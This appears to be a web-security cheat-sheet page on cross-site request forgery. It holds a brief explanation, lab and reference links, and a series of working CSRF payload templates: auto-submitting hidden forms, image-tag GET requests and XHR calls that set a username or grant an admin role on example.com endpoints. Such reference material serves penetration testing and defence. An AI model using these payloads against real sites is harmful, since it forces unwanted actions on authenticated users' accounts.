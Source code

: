 # Cross-Site Request Forgery

> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP

## Summary

- [Tools](#tools)
- [Methodology](#methodology)
  - [HTML GET - Requiring User Interaction](#html-get---requiring-user-interaction)
  - [HTML GET - No User Interaction](#html-get---no-user-interaction)
  - [HTML POST - Requiring User Interaction](#html-post---requiring-user-interaction)
  - [HTML POST - AutoSubmit - No User Interaction](#html-post---autosubmit---no-user-interaction)
  - [HTML POST - multipart/form-data With File Upload - Requiring User Interaction](#html-post---multipartform-data-with-file-upload---requiring-user-interaction)
  - [JSON GET - Simple Request](#json-get---simple-request)
  - [JSON POST - Simple Request](#json-post---simple-request)
  - [JSON POST - Complex Request](#json-post---complex-request)
- [Labs](#labs)
- [References](#references)

## Tools

- [0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe) - The Prime Cross Site Request Forgery Audit and Exploitation Toolkit.

## Methodology

![CSRF_cheatsheet](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Cross-Site%20Request%20Forgery/Images/CSRF-CheatSheet.png)

When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.

### HTML GET - Requiring User Interaction

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```

### HTML GET - No User Interaction

```html
<img src="http://www.example.com/api/setusername?username=CSRFd" />
```

### HTML POST - Requiring User Interaction

```html
<form
  action="http://www.example.com/api/setusername"
  enctype="text/plain"
  method="POST"
>
  <input name="username" type="hidden" value="CSRFd" />
  <input type="submit" value="Submit Request" />
</form>
```

### HTML POST - AutoSubmit - No User Interaction

```html
<form
  id="autosubmit"
  action="http://www.example.com/api/setusername"
  enctype="text/plain"
  method="POST"
>
  <input name="username" type="hidden" value="CSRFd" />
  <input type="submit" value="Submit Request" />
</form>

<script>
  document.getElementById("autosubmit").submit();
</script>
```

### HTML POST - multipart/form-data With File Upload - Requiring User Interaction

```html
<script>
  function launch() {
    const dT = new DataTransfer();
    const file = new File(["CSRF-filecontent"], "CSRF-filename");
    dT.items.add(file);
    document.xss[0].files = dT.files;

    document.xss.submit();
  }
</script>

<form
  style="display: none"
  name="xss"
  method="post"
  action="<target>"
  enctype="multipart/form-data"
>
  <input id="file" type="file" name="file" />
  <input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">Submit Request</button>
```

### JSON GET - Simple Request

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://www.example.com/api/currentuser");
  xhr.send();
</script>
```

### JSON POST - Simple Request

With XHR :

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "http://www.example.com/api/setrole");
  //application/json is not allowed in a simple request. text/plain is the default
  xhr.setRequestHeader("Content-Type", "text/plain");
  //You will probably want to also try one or both of these
  //xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  //xhr.setRequestHeader("Content-Type", "multipart/form-data");
  xhr.send('{"role":admin}');
</script>
```

With autosubmit send form, which bypasses certain browser protections such as the Standard option of [Enhanced Tracking Protection](https://support.mozilla.org/en-US/kb/enhanced-tracking-protection-firefox-desktop?as=u&utm_source=inproduct#w_standard-enhanced-tracking-protection) in Firefox browser :

```html
<form
  id="CSRF_POC"
  action="www.example.com/api/setrole"
  enctype="text/plain"
  method="POST"
>
  // this input will send : {"role":admin,"other":"="}
  <input type="hidden" name='{"role":admin, "other":"' value='"}' />
</form>
<script>
  document.getElementById("CSRF_POC").submit();
</script>
```

### JSON POST - Complex Request

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "http://www.example.com/api/setrole");
  xhr.withCredentials = true;
  xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
  xhr.send('{"role":admin}');
</script>
```

## Labs

- [PortSwigger - CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)
- [PortSwigger - CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)
- [PortSwigger - CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)
- [PortSwigger - CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)
- [PortSwigger - CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)
- [PortSwigger - CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)
- [PortSwigger - CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)
- [PortSwigger - CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)

## References

- [Cross-Site Request Forgery Cheat Sheet - Alex Lauerman - April 3rd, 2016](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
- [Cross-Site Request Forgery (CSRF) - OWASP Cheat Sheet Series - Oct 18, 2025](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Messenger.com CSRF that show you the steps when you check for CSRF - Jack Whitton - July 26, 2015](https://whitton.io/articles/messenger-site-wide-csrf/)
- [Paypal bug bounty: Updating the Paypal.me profile picture without consent (CSRF attack) - Florian Courtial - 19 July 2016](https://web.archive.org/web/20170607102958/https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
- [Hacking PayPal Accounts with one click (Patched) - Yasser Ali - 2014/10/09](https://web.archive.org/web/20141203184956/http://yasserali.com/hacking-paypal-accounts-with-one-click/)
- [Add tweet to collection CSRF - Vijay Kumar (indoappsec) - November 21, 2015](https://hackerone.com/reports/100820)
- [Facebookmarketingdevelopers.com: Proxies, CSRF Quandry and API Fun - phwd - October 16, 2015](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
- [How I Hacked Your Beats Account? Apple Bug Bounty - @aaditya_purani - 2016/07/20](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
- [FORM POST JSON: JSON CSRF on POST Heartbeats API - Eugene Yakovchuk - July 2, 2017](https://hackerone.com/reports/245346)
- [Hacking Facebook accounts using CSRF in Oculus-Facebook integration - Josip Franjkovic - January 15th, 2018](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
- [Cross Site Request Forgery (CSRF) - Sjoerd Langkemper - Jan 9, 2019](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
- [Cross-Site Request Forgery Attack - PwnFunction - 5 Apr. 2019](https://www.youtube.com/watch?v=eWEgUcHPle0)
- [Wiping Out CSRF - Joe Rozner - Oct 17, 2017](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
- [Bypass Referer Check Logic for CSRF - hahwul - Oct 11, 2019](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)
